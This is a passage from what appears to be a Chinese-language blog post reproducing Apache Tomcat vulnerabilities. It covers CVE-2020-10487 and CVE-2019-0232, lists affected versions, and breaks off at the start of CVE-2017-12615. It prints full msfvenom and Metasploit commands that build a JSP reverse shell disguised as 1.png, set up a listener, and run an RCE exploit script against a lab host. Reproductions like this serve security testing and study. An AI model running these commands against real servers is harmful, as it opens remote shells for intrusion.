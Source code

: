 还可以通过 MSF 生成 jsp shell，把 1.png 上传上去
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.64.130 LPORT=4444 > 1.png
```
MSF 监听
```
msfconsole
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set lhost 192.168.64.130
run
```
执行脚本
```
python3 2020-10487.py 192.168.64.129 -p 8009 -f 1.png --rce 1
```
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140119378-1498390668.png)



## CVE-2019-0232

---

### 利用前提

1. 系统：Windows
2. 启用了CGI Servlet（默认为关闭）
3. 启用了enableCmdLineArguments（默认为关闭）

### 影响范围

- Apache Tomcat 9.0.0.M1 to 9.0.17
- Apache Tomcat 8.5.0 to 8.5.39
- Apache Tomcat 7.0.0 to 7.0.93

### 漏洞复测

需要配置：
- https://xz.aliyun.com/t/4875
- https://www.freebuf.com/column/204006.html

效果：
![](https://img2020.cnblogs.com/blog/1954962/202011/1954962-20201110140213897-552872480.png)



## CVE-2017-12615

---

> https://paper.seebug.org/399/

### 影响范围
